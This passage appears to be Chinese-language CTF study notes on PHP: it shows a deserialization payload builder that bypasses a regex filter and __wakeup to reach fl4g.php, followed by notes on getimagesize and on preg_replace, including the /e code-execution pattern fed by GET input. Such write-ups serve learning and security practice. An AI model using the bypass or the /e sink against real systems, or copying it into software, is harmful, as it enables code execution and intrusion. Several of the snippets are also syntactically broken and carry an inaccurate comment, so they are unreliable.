 ```php
if ($this->file != 'index.php') {

//the secret is in the fl4g.php

$this->file = 'index.php';

}

}

}

$A = new Demo ('fl4g.php');//创建对象

$C = serialize($A);                     //对对象A进行序列化

$C = str_replace('O:4','O:+4',$C);      //绕过正则表达式过滤 #将O:4 替换O:+4

$C = str_replace(':1:',':2:',$C); //wakeup绕过

var_dump($C);

var_dump(base64_encode($C));            //base64加密

?>
```
getimagesize检查文件大小，一般用于文件上传

preg_replace()函数

替换函数

例如：

```php
<?php

$str=preg_replace('/a/','b',"aaaaaaaaa'')

echo $str

?>
```

会将aaaaaaaaa里面包含a的全部替换成b

一般用于过滤非法字符

如：

```php
<?php

if(isset($_GET['code'])){

     $code=$_GET['code'];

     preg_replace("\/[(.*)\}/e",'\\1',$code) #正则匹配将中括号的值转换成1

}

?>
```
